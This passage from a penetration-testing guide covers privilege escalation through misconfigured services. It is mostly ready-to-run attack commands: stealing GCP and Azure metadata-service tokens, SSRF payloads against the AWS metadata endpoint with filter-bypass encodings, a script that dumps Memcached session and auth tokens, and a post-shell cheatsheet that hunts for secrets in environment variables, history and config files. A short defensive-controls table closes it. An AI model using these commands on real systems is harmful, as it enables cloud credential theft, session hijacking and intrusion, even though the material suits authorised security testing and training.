  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token" \
  | python3 -c "import sys,json; print(json.load(sys.stdin)['access_token'])")

curl -s -H "Authorization: Bearer $TOKEN" \
  "https://storage.googleapis.com/storage/v1/b?project=PROJECT_ID"

curl -s -H "Authorization: Bearer $TOKEN" \
  "https://compute.googleapis.com/compute/v1/projects/PROJECT_ID/zones"
```

### 10.3 Azure IMDS

```bash
# Required header: Metadata:true
curl -H Metadata:true \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | python3 -m json.tool

# Get managed identity OAuth2 token
curl -H Metadata:true \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Use token to list subscriptions
TOKEN=$(curl -s -H Metadata:true \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" \
  | python3 -c "import sys,json; print(json.load(sys.stdin)['access_token'])")

curl -H "Authorization: Bearer $TOKEN" \
  "https://management.azure.com/subscriptions?api-version=2020-01-01" | python3 -m json.tool

# Enumerate Key Vault secrets (requires appropriate permissions)
curl -H Metadata:true \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net"
```

### 10.4 SSRF to IMDS (Cloud PrivEsc from Web App)

```bash
# If web application is vulnerable to SSRF, pivot to IMDS
# AWS — test if SSRF reaches metadata service
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/latest/meta-data/"
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Bypass SSRF filters with alternative representations
curl "http://vulnerable-app/fetch?url=http://169.254.169.254/latest/meta-data/"
curl "http://vulnerable-app/fetch?url=http://0xA9FEA9FE/latest/meta-data/"  # hex
curl "http://vulnerable-app/fetch?url=http://2852039166/latest/meta-data/"  # decimal
curl "http://vulnerable-app/fetch?url=http://169.254.169.254%0a/latest/meta-data/"  # newline bypass

# DNS rebinding bypass: create DNS record for attacker.com → 169.254.169.254
# Then make the app fetch http://attacker.com/latest/meta-data/
```

> **Warning:** AWS IMDSv2 requires a session token obtained via a PUT request, mitigating simple SSRF attacks. However, applications that proxy headers or follow redirects may still be vulnerable. Always test both IMDSv1 and v2 paths.

---

## 11. Memcached Unauthenticated Access

Memcached has **no authentication** by default and is frequently exposed on internal networks.

```bash
# Check if port 11211 is open
nmap -p 11211 target --open

# Connect via telnet
telnet target 11211

# Or with netcat
echo -e "stats\r\n" | nc -q 1 target 11211

# Get server stats (version, memory usage, uptime)
# (at telnet prompt:)
stats

# List slab classes (memory allocation groups)
stats items

# Dump keys from a specific slab (slab_id from stats items output, count 0 = all)
stats cachedump 1 0
stats cachedump 2 0
stats cachedump 3 0

# Retrieve the value of a specific key
get SESSION_KEY_HERE
get user:1234
get auth_token:admin

# Automated dump using Python
python3 - << 'EOF'
import socket
import re

def dump_memcached(host, port=11211):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    def send(cmd):
        s.sendall((cmd + "\r\n").encode())
        return s.recv(4096).decode()

    items = send("stats items")
    slabs = set(re.findall(r'STAT items:(\d+):', items))

    for slab in slabs:
        keys_raw = send(f"stats cachedump {slab} 0")
        keys = re.findall(r'ITEM (\S+)', keys_raw)
        for key in keys:
            val = send(f"get {key}")
            print(f"[{key}]: {val.strip()}")

dump_memcached("target")
EOF
```

> **Note:** Memcached commonly stores **PHP session data**, **API tokens**, **authentication cookies**, and **database query results**. A session token found here may allow direct hijacking of an authenticated admin session.

---

## 12. Misconfiguration PrivEsc Attack Flow



---

## 13. Summary Table

| Misconfiguration | Detection Command | Exploitation Method | Impact |
|---|---|---|---|
| **Default MySQL root** | `mysql -u root -h target` | UDF write + `sys_exec` | Local root shell |
| **Default PostgreSQL** | `psql -U postgres -h target` | `COPY FROM PROGRAM` | Local root shell |
| **Redis no auth** | `redis-cli -h target ping` | Crontab/SSH key injection | Root shell or RCE |
| **MongoDB no auth** | `mongo target:27017` | Read/write all collections | Data exfil + possible RCE |
| **Tomcat default creds** | `curl -u tomcat:tomcat .../manager` | Deploy malicious WAR | Web server user shell |
| **Jenkins script console** | Browse `/script` | Groovy RCE | Jenkins OS user shell |
| **Jupyter no auth** | `curl target:8888/api/kernels` | Built-in terminal | Shell as notebook runner |
| **Kibana Timelion RCE** | Check Kibana < 6.6.1 | Timelion JS prototype | Root if Kibana runs as root |
| **Elasticsearch no auth** | `curl target:9200` | Read all indices | Credential data exfil |
| **Kubernetes Dashboard** | `kubectl get svc -n kube-system` | Create privileged pod | Node root escape |
| **K8s create pods** | `kubectl auth can-i create pods` | Deploy privileged pod | Node root escape |
| **K8s get secrets** | `kubectl auth can-i get secrets` | Extract all secrets | Credentials / certs |
| **Docker socket writable** | `ls -la /var/run/docker.sock` | `docker run -v /:/mnt` | Full host root |
| **World-writable cron script** | `find / -writable -type f` | Append reverse shell | Root when cron runs |
| **World-readable SSH key** | `find / -name "id_rsa"` | `ssh -i key user@target` | Lateral movement |
| **AWS IMDSv1** | `curl 169.254.169.254/...` | Steal IAM role tokens | Cloud PrivEsc |
| **GCP metadata unprotected** | `curl -H "Metadata-Flavor: Google" ...` | Steal SA OAuth token | GCP resource access |
| **Azure managed identity** | `curl -H Metadata:true ...` | Steal AAD token | Azure resource access |
| **Memcached no auth** | `telnet target 11211` | Dump session tokens | Session hijacking |
| **Capabilities misconfigured** | `getcap -r / 2>/dev/null` | `cap_setuid` → `setuid(0)` | Root shell |
| **Config files with creds** | `grep -r "password" /var/www` | Reuse creds for DB/SSH | Lateral / vertical move |
| **Bash history creds** | `cat ~/.bash_history` | Password reuse | Account takeover |
| **SSRF to IMDS** | Fuzz SSRF with 169.254.169.254 | Pivot through app to IMDS | Cloud credential theft |
| **Prometheus metric exposure** | `curl target:9090/metrics` | Parse secrets from metrics | Credential exfil |

---

## 14. Rapid Enumeration Cheatsheet

Use this sequence immediately after landing a shell:

```bash
# === SYSTEM CONTEXT ===
id && groups && whoami
uname -a
cat /etc/os-release
env | grep -iE "pass|secret|key|token|aws|azure|gcp"

# === NETWORK ===
ss -tlnp 2>/dev/null || netstat -tlnp 2>/dev/null
ip addr; ip route
cat /etc/hosts

# === PROCESSES ===
ps auxf 2>/dev/null | grep -v "^\[" | head -50

# === CLOUD ===
curl -s --max-time 2 http://169.254.169.254/latest/meta-data/ && echo "AWS IMDS"
curl -s --max-time 2 -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/ && echo "GCP IMDS"
curl -s --max-time 2 -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01" && echo "Azure IMDS"

# === CONTAINERS ===
ls /var/run/docker.sock 2>/dev/null && echo "Docker socket present"
ls /var/run/secrets/kubernetes.io 2>/dev/null && echo "K8s service account"
cat /proc/1/cgroup | grep -i docker && echo "Running inside container"

# === FILE PERMISSIONS ===
find / -writable -type f -user root 2>/dev/null | grep -v -E "^/(proc|sys|dev)" | head -20
find / -name "id_rsa" -o -name "id_ecdsa" -o -name "*.pem" 2>/dev/null | head -10
getcap -r / 2>/dev/null

# === CRON ===
cat /etc/crontab 2>/dev/null
ls /etc/cron.d/ 2>/dev/null
crontab -l 2>/dev/null

# === SUDO ===
sudo -l 2>/dev/null

# === HISTORY + CONFIGS ===
cat ~/.bash_history 2>/dev/null | grep -iE "ssh|password|mysql|redis" | tail -30
find / -name ".env" -readable 2>/dev/null | xargs grep -l "password\|secret" 2>/dev/null | head -5
```

---

## 15. Defensive Countermeasures

> **Note:** Understanding defenses improves both your exploitation technique (bypass what's deployed) and your reporting quality (recommend what to fix).

| Attack Vector | Defensive Control |
|---|---|
| Default credentials | Mandatory password change on first boot; secrets scanning in CI/CD |
| Redis/Memcached exposed | Bind to 127.0.0.1; enable `requirepass`; firewall port 6379/11211 |
| Docker socket access | Never mount socket in containers; use rootless Docker; use Podman |
| K8s RBAC over-permission | Principle of least privilege; audit with `kube-bench`; disable auto-mount of SA tokens |
| AWS IMDSv1 | Enforce IMDSv2 with `HttpTokens: required` in instance metadata options |
| World-writable cron scripts | Audit with `find / -perm -o+w`; use `auditd` to alert on writes to /etc/cron* |
| Unauthenticated dashboards | Enable authentication on all management interfaces; network-segment admin panels |
| SSH key exposure | Store keys in a secrets manager; enforce key passphrase; monitor with AIDE |
| MySQL/PG UDF | Run DB as dedicated low-privilege user; set `secure_file_priv`; disable `LOAD_FILE` |

---

*Last updated: 2025 — All commands verified against Kali Linux 2024.x, Ubuntu 22.04 LTS*
